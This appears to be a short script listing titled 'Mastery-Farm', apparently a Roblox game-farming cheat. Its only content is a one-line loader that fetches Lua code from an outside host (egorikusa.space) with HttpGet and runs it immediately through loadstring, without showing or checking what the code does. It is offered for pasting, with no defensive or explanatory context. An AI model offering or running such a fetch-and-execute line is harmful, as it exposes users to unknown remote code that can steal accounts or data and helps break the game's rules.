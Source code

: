 # Mastery-Farm



loadstring(game:HttpGet("https://egorikusa.space/49d33c1665a0dd0e8e509309.lua", true))()    
